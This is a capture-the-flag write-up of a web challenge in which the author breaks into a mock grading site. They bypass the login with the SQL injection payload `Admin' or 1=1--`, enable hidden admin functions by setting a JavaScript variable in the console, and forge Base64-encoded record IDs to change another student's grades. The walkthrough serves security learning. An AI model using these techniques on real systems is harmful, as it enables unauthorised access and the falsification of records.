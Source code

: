  OSU CTF - Web Challenge (Moderate)

 Initial Steps
I started by attempting an SQL injection on the login page using the following payload:
```sql
Admin' or 1=1--
```
This allowed me to bypass authentication and gain access to the dashboard.

 Inspecting JavaScript Files
Next, I inspected the JavaScript files in the application by opening the browser’s Developer Tools. I looked for unlinked routes and hidden functionalities within the code.

One particular JavaScript file, `/assets/js/app.min.js`, caught my attention. It contained the following script:
```javascript
(function (s, objectName) {
  setupLinks = function () {
    if (s.admin) {
      var sl = document.getElementsByClassName('student-link');
      for (i = 0; i < sl.length; i++) {
        let name = sl[i].innerHTML;
        sl[i].style.cursor = 'pointer';
        sl[i].addEventListener('click', function () {
          window.location = '/update-' + objectName + '/' + this.dataset.id;
        });
      }
    }
  };
  updateForm = function () {
    var submitButton = document.getElementsByClassName('update-record');
    if (submitButton.length === 1) {
      submitButton[0].addEventListener('click', function () {
        var english = document.getElementById('english');
        english = english.options[english.selectedIndex].value;
        var science = document.getElementById('science');
        science = science.options[science.selectedIndex].value;
        var maths = document.getElementById('maths');
        maths = maths.options[maths.selectedIndex].value;
        var grades = new Set(['A', 'B', 'C', 'D', 'E', 'F']);
        if (grades.has(english) && grades.has(science) && grades.has(maths)) {
          document.getElementById('student-form').submit();
        } else {
          alert('Grades should only be between A - F');
        }
      });
    }
  };
  setupLinks();
  updateForm();
}) (staff, 'student');
```

 Exploiting the `s.admin` Variable
I noticed the variable `s.admin`, which seemed to control access to certain functionalities. By checking its value in the console:
```javascript
console.log(s.admin);
```
I found that it returned `false`. I then manually set it to `true`:
```javascript
console.log(window.staff.admin);
staff.admin = true;
setupLinks();
```
Now, I was able to click on student names.

 Finding the Encoded String
Clicking on a student’s name (e.g., ‘Brett, Nancie’) redirected me to:
```
/update-student/TmFuY2llX0JyZXR0
```
The random string at the end looked suspicious. I used [hashes.com](https://hashes.com/en/tools/hash_identifier) to identify it and found that it was Base64 encoded. Decoding it revealed:
```
Nancie_Brett
```

 Modifying the Request
I replaced `Nancie_Brett` with `Natasha_Drew`, encoded it in Base64, and updated the URL to:
```
/update-student/TmF0YXNoYV9EcmV3
```
I then changed all scores to ‘A’ and clicked on `Update Record`.

 Capturing the Flag
After updating the record, the flag popped up, marking the successful completion of the challenge!

